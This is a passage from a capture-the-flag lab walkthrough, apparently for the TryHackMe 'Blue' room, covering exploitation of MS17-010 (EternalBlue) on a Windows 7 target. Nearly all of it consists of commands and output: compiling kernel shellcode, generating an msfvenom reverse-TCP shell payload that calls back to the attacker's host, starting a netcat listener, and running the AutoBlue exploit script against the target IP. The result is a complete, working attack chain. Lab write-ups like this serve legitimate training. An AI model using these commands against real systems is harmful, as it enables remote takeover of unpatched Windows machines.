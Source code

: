 
##### Generate msf stageless payload

> **TLDR;**
> Lazy command to auto generate msf stageless payload
>  ```bash
> LHOST=10.11.19.145; LPORT=1111; cd shellcode && echo -e "y\n${LHOST}\n${LPORT}\n${LPORT}\n1\n1" | bash shell_prep.sh
> ```
{: .prompt-info }

Change to shellcode dir

```bash
cd shellcode
```

Compile kernel shellcode manually 

```bash
nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin
```

Generate shellcode

```bash
msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=tun0 LPORT=1111
```

Merge shellcode

```bash
cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin
```


##### Start listener

```bash
rlwrap -r -f . nc -nlvp 1111
```


##### Run eternalblue_exploit7 

> **Note**
> **Try multiple times for exploit to work!** If it still fails, check this [writeup](https://rizemon.github.io/posts/blue-htb/)
> 
> The writeup requires python 2 - [Encountered Issues > Make python2 working](app://obsidian.md/Encountered%20Issues#Make%20python2%20working)
{: .prompt-tip }

```bash
┌──(venv)─(kali㉿kali)-[~/thm/blue/AutoBlue-MS17-010/shellcode]
└─$ cd ..

┌──(venv)─(kali㉿kali)-[~/thm/blue/AutoBlue-MS17-010]
└─$ python eternalblue_exploit7.py 10.10.104.105 ./shellcode/sc_x64.bin
shellcode size: 1232
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```
